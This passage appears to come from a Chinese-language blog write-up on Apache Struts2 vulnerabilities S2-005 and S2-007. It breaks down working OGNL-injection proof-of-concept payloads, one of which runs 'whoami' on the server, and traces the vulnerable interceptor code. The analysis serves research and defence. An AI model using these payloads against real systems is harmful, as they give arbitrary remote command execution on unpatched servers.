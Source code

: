 这个漏洞的核心在于`#`的过滤被绕过，导致我们可以访问Ognl的上下文对象，也就导致了命令执行，我们可以来详细看看poc原理

S2-005的payload如下
```
('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
```

上面的poc分成三个部分

1、`('#_memberAccess['allowStaticMethodAccess']')(meh)=true`
2、`&(aaa)(('#context['xwork.MethodAccessor.denyMethodExecution']=#foo')(#foo=new%20java.lang.Boolean("false")))`

这里主要是关闭两个禁用方法

3、`&(asdf)(('#rt.exit(1)')(#rt=@java.lang.Runtime@getRuntime()))=1`

最后就是执行命令

# S2-007

User input is evaluated as an OGNL expression when there’s a conversion error. This allows a malicious user to execute arbitrary code.

这个漏洞的成因在于，在S2中，关于表单我们可以设置每个字段的规则验证，如果类型转换错误时，就会进行错误的字符串拼接，通过闭合引号导致ognl的语法解析。

poc
```
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29+%2B+%27
```

## 漏洞分析

跟随参数到`xwork-core-2.2.3.jar!\com\opensymphony\xwork2\interceptor\ConversionErrorInterceptor.class` ConversionErrorInterceptor

![image.png-185.3kB][7]

函数从`entry.getValue()`获取到输入的参数，当运算出现错误的时候，那么这时候就会发起强制类型转换，然后进入函数`getOverrideExpr`。

在函数`getOverrideExpr`中，传入的参数会在两边拼接单引号。

我们传入的
```
'+(#application)+'
```

就会转为
```
''+(#application)+''
```


  [1]: http://static.zybuluo.com/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: http://static.zybuluo.com/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: http://static.zybuluo.com/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: http://static.zybuluo.com/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: http://static.zybuluo.com/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: http://static.zybuluo.com/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: http://static.zybuluo.com/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: http://static.zybuluo.com/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: http://static.zybuluo.com/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: http://static.zybuluo.com/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: http://static.zybuluo.com/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: http://static.zybuluo.com/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: http://static.zybuluo.com/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png